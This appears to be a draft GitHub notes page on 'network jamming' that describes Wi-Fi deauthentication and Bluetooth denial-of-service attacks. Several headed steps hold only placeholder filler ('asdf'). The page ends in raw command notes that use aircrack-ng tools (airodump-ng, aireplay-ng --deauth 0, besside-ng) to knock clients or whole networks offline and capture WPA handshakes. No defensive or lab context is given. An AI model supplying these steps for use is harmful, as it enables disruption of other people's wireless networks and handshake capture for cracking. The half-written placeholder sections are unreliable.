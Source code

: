 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a client** of particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly. 




#### Step 1 : 
asdf asdf
`asdf`



---
---



## Bluetooth DOS attack

#### Step 1 : Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon not appearing, or it's not enabling, then follow the below commands :   
```
~$ asdf
```
```
~# asdf
```

<br>

#### Step 2 :  
asdf










------
------
------
rfkill list all

	xxx	sudo apt-get update

sudo apt reinstall blueman

sudo apt reinstall bluetooth

/etc/init.d/bluetooth status

sudo /etc/init.d/bluetooth start



sudo systemctl list-unit-files --type=service

          to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service

sudo systemctl enable bluetooth.service

sudo systemctl list-unit-files --type=service

exit

			// https://youtu.be/w1MvrcBSNjw
------
------
------

convert wlan0 to wlan0mon
-------------------------
sudo su
iwconfig
airmon-ng stop wlan0
iw wlan0 del
airmon-ng start wlan0mon
rfkill list

----------------------------
method-1
---------
sudo su
airmon-ng check kill
airmon-ng start wlan0

airodump-ng wlan0mon
ctrl+C
	
	sudo su
	cd Desktop
	airodump-ng wlan0mon --bssid "_" -c "_" -w demo

		sudo su
		aireplay-ng --deauth 0 -a "___BSS-ID___" wlan0mon
		ctrl+C, ^ ENTER....

after handshake...
---------------------------------
method-2
---------
sudo su
airmon-ng
iwconfig
clear

airmon-ng start wlan0
airmon-ng check kill (2)
airmon-ng start wlan0
clear
airmon-ng start wlan0mon
clear
iwconfig

airodump-ng wlan0mon
ctrl+C

	sudo su
	cd Desktop
	airodump-ng --bssid "_" -c "_" -w demo wlan0mon  //  (attack all networks don't metioned client/channel and bssid)

		sudo su
		besside-ng -c "_" wlan0mon  //  (attack all networks don't metioned client)

after handshake...
----------------------------------
method-3
--------

iwconfig
ifconfig wlan0
airmon-ng start wlan0
iwconfig
clear

airodump-ng wlan0mon
ctrl+C

sudo su
cd Desktop
airodump-ng -c_ -w demo -d "__BSS-ID__" wlan0mon

	sudo su
	aireplay-ng --deauth 0 -a "__BSS-ID__" -c "__STATION__" wlan0mon // (all or particular member using -c and station)
	ctrl+C

after handshake...
airmon-ng stop wlan0mon	


